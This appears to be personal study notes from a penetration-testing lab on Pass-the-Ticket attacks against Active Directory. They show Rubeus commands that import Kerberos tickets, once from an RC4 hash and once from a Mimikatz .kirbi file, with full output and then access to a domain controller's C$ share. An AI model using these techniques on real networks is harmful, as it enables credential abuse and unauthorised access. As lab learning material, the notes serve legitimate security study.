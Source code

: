 ## Performing PtT Attack

At this point we need ===Valid Kerberos Tickets=== either we dumped them like we did in \[\[#Harvesting Kerberos Tickets]] or through \[\[#Forging our own tickets(Overpass the Hash/PtKey)]].

### Method 1: Rubeus asktgt module + hash + /ptt flag

The idea is the import the ticket in current session. Upon success, it'll print ==Ticket successfully imported==.

```batch
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA<SNIP>...
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 12:27:47 PM
  EndTime               :  7/12/2022 10:27:47 PM
  RenewTill             :  7/19/2022 12:27:47 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  PRG0wMmc4OznDz1YIAjdsA==
```

### Method 2: Rubeus + .kirbi file obtained from Mimikatz

```batch
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!

c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$
```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname